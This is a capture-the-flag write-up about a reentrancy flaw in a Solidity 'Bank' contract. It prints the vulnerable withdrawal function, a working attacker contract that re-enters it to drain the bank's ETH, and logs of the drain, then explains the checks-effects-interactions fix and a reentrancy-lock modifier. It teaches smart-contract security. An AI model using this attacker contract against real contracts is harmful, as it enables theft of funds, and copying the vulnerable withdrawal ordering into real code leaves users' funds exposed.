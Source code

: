 # Bank

## Vulnerability

Reentrancy






## Analysis

This challenge revolves around a reentrancy vulnerability, enabling a malicious actor to exploit a smart contract by repeatedly withdrawing ETH.

In the provided scenario, there's a Bank contract responsible for managing ETH balances for various users.
 The attack vector involves a malicious smart contract interacting with this Bank contract. When a contract receives Ether, 
 the `receive` function can be implemented to introduce logic into the transaction flow.

Due to the creation of a receive function in the malicious contract,
 the victim contract (in this case, the Bank contract) sends Ether to the malicious contract using the following line:

```
msg.sender.call{value: userBalance}("");
```
This allows the attacker to invoke the victim contract again before the initial withdrawal completes.

```
receive() external payable {
    if (address(victimBank).balance != 0) {           
        victimBank.withdrawAll();
    }
}
```

By calling the `withdrawAll` function again, the attacker retains funds in their account since the subtraction hasn't occurred yet.
 The deduction happens only after the transfer fails.

```
    uint256 userBalance = balances[msg.sender];

    (bool success, ) = msg.sender.call{value: userBalance}("");
```




![euler Image](../challangeImages/reentrancy.drawio.png)


### Exploited code

```solidity
function withdrawAll() external payable {
        // Check if the user has any balance
        require(balances[msg.sender] > 0,
         "No balance to withdraw");

        uint256 userBalance = balances[msg.sender];

        (bool success, ) =
         msg.sender.call{value: userBalance}("");

        require(success, "failed to send ether"); 

        //if succesful remove user credits
        balances[msg.sender] = 0;
}
```

# proof of concept (PoC) 

We start the exploit by deploying a malicious contract and sending it 1 ETH

```solidity
contract BankAttack {

    Bank public immutable victimBank;
    address public owner;

    constructor(address payable _victimAddress) {
       owner = msg.sender;
       victimBank = Bank(_victimAddress);
    }

    function attack() external payable {
        // call the deposit function
        victimBank.deposit{value: msg.value}();
        
        // call the withdraw function
        victimBank.withdrawAll();

        // send ether back to my wallet
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        console.log("Current balance of victimBank:", 
        address(victimBank).balance);

        if (address(victimBank).balance != 0) {           
            victimBank.withdrawAll();
        }
    }
}
```

Afterwards, we can initiate our attack by calling the `attack` function. This will:

- Call the `Deposit` function to deposit 1 ETH to the Bank contract
- Call the `Withdraw` function to withdrawl all of the Eth the user has (1 ETH)

Because the Bank contract transfers funds back to our contract `payable(owner).transfer(address(this).balance);`
we can call the withdraw function again in our receive funciton. the receive function is triggered when a contract receives ETH.

```solidity
   receive() external payable {
        if (address(victimBank).balance != 0) {           
            victimBank.withdrawAll();
        }
    }
```

When the Bank contract is drained we transfer the profit over to our wallet by utilizing
`payable(owner).transfer(address(this).balance);` 


Logs:
```
Player Balance before:  10000.0
Current balance of victimBank: 15000000000000000000
Current balance of victimBank: 12000000000000000000
Current balance of victimBank: 9000000000000000000
Current balance of victimBank: 6000000000000000000
Current balance of victimBank: 3000000000000000000
Current balance of victimBank: 0
Player Balance after:  10014.999131368948903685
```

Because of gas cost, its not 10015 but a little bit lower.



## Checks effect Pattern

To make sure the contract isnt elibble to be hijacked by flow contral after an extercal call we can use the checks effect pattern.

When a contract calls an external contract it also transfers the control flow.


```solidity
    // Check if the user has any balance
    require(balances[msg.sender] > 0, 
    "No balance to withdraw");

    uint256 userBalance = balances[msg.sender];

    //if succesful remove user credits
    balances[msg.sender] = 0;

    // transfer
    (bool success, ) = 
    msg.sender.call{value: userBalance}("");
    
    require(success, "failed to send ether"); 
```



It's important to note, that for programmers it might feel counterintuitive to code it this way, because normally
you would first want the transfer to be succesful and than change a balance, but in this case its neccesarcy to 
change the balance firs to prevent reentrancy, you can learn more about 
[solidity patterns](https://fravoll.github.io/solidity-patterns/) here




## Guard

There is also a guard modifier called nonreentrant that protects a function from being
entered again while its still in the process of executing, by creating a lock

A modifier is excecuted before a function.

```solidity

bool internal locked;

modifier noReetrant() {
    require(!locked, "No re-entrancy");
    locked = true;
    _;
    locked = false;
}

```


# Summary

To prevent a user to exploit your contract its important to secure it for reentrancy.
You can do it by adding a modifier or removing the player balance first and than transfering ETH.

[**< Back >**](https://patronasxdxd.github.io/CTFS/)
